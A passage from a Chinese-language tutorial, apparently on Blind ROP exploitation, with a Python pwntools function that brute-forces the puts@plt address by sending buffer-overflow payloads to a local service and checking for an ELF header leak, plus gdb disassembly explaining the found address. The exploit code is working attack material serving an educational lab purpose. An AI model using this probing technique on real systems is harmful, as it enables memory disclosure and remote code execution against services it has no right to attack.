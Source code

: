 这里我们使用 puts 函数来 dump 内存，比起 write，它只需要一个参数，很方便：
```python
def get_puts_plt(buf_size, stop_addr, gadgets_addr):
    pop_rdi = gadgets_addr + 9      # pop rdi; ret;
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1

        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            if p.recv().startswith("\x7fELF"):
                log.info("puts@plt address: 0x%x" % addr)
                p.close()
                return addr
            log.info("bad: 0x%x" % addr)
            p.close()
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
这里让 puts 打印出 `0x400000` 地址处的内容，因为这里通常是程序头的位置（关闭PIE），且前四个字符为 `\x7fELF`，方便进行验证。
```
[*] puts@plt address: 0x4005e7
```
成功找到一个地址，它确实调用 puts，打印出了 `\x7fELF`，那它真的就是 puts@plt 的地址吗，不一定，看一下呗，反正我们有二进制文件。
```
gdb-peda$ disassemble /r 0x4005f0
Dump of assembler code for function puts@plt:
   0x00000000004005f0 <+0>:     ff 25 22 0a 20 00       jmp    QWORD PTR [rip+0x200a22]        # 0x601018
   0x00000000004005f6 <+6>:     68 00 00 00 00  push   0x0
   0x00000000004005fb <+11>:    e9 e0 ff ff ff  jmp    0x4005e0
End of assembler dump.
```
不对呀，puts@plt 明明是在 `0x4005f0`，那么 `0x4005e7` 是什么鬼。
```
gdb-peda$ pdisass /r 0x4005e7,0x400600
Dump of assembler code from 0x4005e7 to 0x400600:
   0x00000000004005e7:  25 24 0a 20 00  and    eax,0x200a24
   0x00000000004005ec:  0f 1f 40 00     nop    DWORD PTR [rax+0x0]
   0x00000000004005f0 <puts@plt+0>:     ff 25 22 0a 20 00       jmp    QWORD PTR [rip+0x200a22]        # 0x601018
   0x00000000004005f6 <puts@plt+6>:     68 00 00 00 00  push   0x0
   0x00000000004005fb <puts@plt+11>:    e9 e0 ff ff ff  jmp    0x4005e0
End of assembler dump.
```
原来是由于反汇编时候的偏移，导致了这个问题，当然了前两句对后面的 puts 语句并没有什么影响，忽略它，在后面的代码中继续使用 `0x4005e7`。
